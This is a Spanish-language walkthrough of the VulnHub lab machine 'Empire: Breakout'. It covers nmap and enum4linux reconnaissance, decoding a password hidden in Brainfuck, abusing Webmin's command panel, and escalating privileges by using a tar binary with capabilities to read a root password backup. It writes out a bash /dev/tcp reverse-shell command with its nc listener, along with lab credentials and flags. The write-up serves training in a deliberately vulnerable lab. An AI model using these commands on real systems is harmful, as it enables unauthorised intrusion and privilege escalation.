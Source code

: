 Platform: Vulnhub
machine: [Empire: Breakout ~ VulnHub](https://www.vulnhub.com/entry/empire-breakout,751/)
Download (Mirror)**: [https://download.vulnhub.com/empire/02-Breakout.zip](https://download.vulnhub.com/empire/02-Breakout.zip)

Herramientas:
[[ARP-Scan]]
[[Ping]]
[[NMAP]]
[[Enum4linux]]
[[Nc]]

![[Vulnhub - EMPIRE Breakout - Machine.png]]
Herramientas:
	- arp-scan
	- ping
	- nmap
	- Visor de codigo del navegador
	- https://www.dcode.fr/brainfuck-language
	- enum4linux
	- nc -lvnp 1234
	- bash -i >/dev/tcp/192.168.1.144/1234 0>&1
	- con getcap -r / 2>dev/null
	- ./tar -cf {nombre fichero} /var/backups/.old_pass.bak
Puertos:
	#Puerto80 
	#puerto10000
	#puerto20000


reconocimiento de la red:

![[Vulnhub - EMPIRE Breakout - Reconocimeinto de la red.png]]
Ping a la maquina para ver si hay conectividad y el TTL:
![[Vulnhub - EMPIRE Breakout - Ping y ver TTL.png]]

Conectividad y TTL 64--> maquina LINUX
Nmap:
sudo nmap -p- --open -sS -Pn -sC -sV 192.168.1.136

![[Vulnhub - EMPIRE Breakout - Nmap.png]]

Encontramos los  puertos:
80 con un apache 2.4.51
139 Samba 4.6.2
445 Samba 4.6.2
10000 http webmin miniserv 1.891
20000 http webmin MiniServ 1.830

Accedemos al puerto 80:

![[Vulnhub - EMPIRE Breakout - Web apache 2 por defecto.png]]
web por defecto de Apache 2 en Debian

Vamos a revisar el código fuente:
![[Vulnhub - EMPIRE Breakout - Codigo extraño en el codigo fuente.png]]
nos encontramos con esto:

<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
-->

por lo que entendemos con el mensaje que :
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
es un mensaje encriptado

Decodeamos web para decodear este mensaje (https://www.dcode.fr/brainfuck-language):

![[Vulnhub - EMPIRE Breakout - Decode Message.png]]
y obtenemos:
.2uqPEfj3D<P'a-3

Accedemos al puerto 10000:
![[Vulnhub - EMPIRE Breakout - Acceso al puerto 10000.png]]
volvemos a acceder ahora con SSL (según mensaje)
y vemos un panel de Login:
![[Vulnhub - EMPIRE Breakout - Panel de Login.png]]

Revisamos el puerto 20000:
![[Vulnhub - EMPIRE Breakout - Acceso al puerto 20000.png]]
Usamos la herramienta Enum4 Linux:
comando:
enum4linux -a 192.168.1.136 y obtengo este resultado:
![[Vulnhub - EMPIRE Breakout - Enumeracion de usuarios con enun4linux.png]]
Ha obtenido el usuario cyber
vamos a intentar entrar con el usuario cyber y al contraseña obtenida anteriormente en el panel de login:

cyber:.2uqPEfj3D<P'a-3
y accedemos al panel:

![[Vulnhub - EMPIRE Breakout - Panel de mailbox.png]]

hay una opcion en el panel que es para ejecutar comandos:
![[Vulnhub - EMPIRE Breakout - Ejecutamos comandos desde el panel.png]]

de aquí obtenemos la primera flag del usuario:
User flag: 3mp!r3{You_Manage_To_Break_To_My_Secure_Access}

ahora podemos lanzar una reverse bash desde aquí y recibirla en nuestro terminal:
nos ponemos a la escucha:
comando 
nc -lvnp 1234
y en la victima ejecutamos:
bash -i >/dev/tcp/192.168.1.144/1234 0>&1

Y obtenemos acceso:
![[Vulnhub - EMPIRE Breakout - Ejecutar reverse shell.png]]

Obtenemos la reverse Shell:
![[Vulnhub - EMPIRE Breakout - Obtencion de reverse Shell.png]]
volvemos a ver la flag del usuario:
![[Vulnhub - EMPIRE Breakout - User Flag from the machine.png]]


nuestro usuario es cyber
![[Vulnhub - EMPIRE Breakout - User cyber.png]]

hacemos un pequeño tratamiento de la TTY con el comando:
script /dev/null -c bash
Vulnhub - EMPIRE Breakout - 
tenemos que escalar privilegios:
sudo -l no funciona
![[Vulnhub - EMPIRE Breakout - Escalado sudo -l.png]]

Vemos las capabilities:
con getcap -r / 2>dev/null
![[Vulnhub - EMPIRE Breakout - Capabilitis del usuario.png]]

Y encontramos  que tenemos acceso a tar

![[Vulnhub - EMPIRE Breakout - Fichero backup old oculto.png]]

Encontramos el ficheor oculto en /var/backups con el nombre .old_pass.bak
usamos tar para leerlo

![[Vulnhub - EMPIRE Breakout - Encontramos fichero backups old.png]]

con el comando ./tar -cf {nombre fichero} /var/backups/.old_pass.bak
extraemos
listamos lo extraido:
![[Vulnhub - EMPIRE Breakout - Fichero backup descomprimido.png]]

y obtenemos lo siguiente:
0000600000000000000000000000002114134001114014303 0ustar  rootrootTs&4&YurgtRX(=~h  

Accedemos con la contraseña de root que hemos obtenido:
sudo root:
root:Ts&4&YurgtRX(=~h  

![[Vulnhub - EMPIRE Breakout - Acceso root.png]]
Root flag:
![[Vulnhub - EMPIRE Breakout - Root flag.png]]
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}




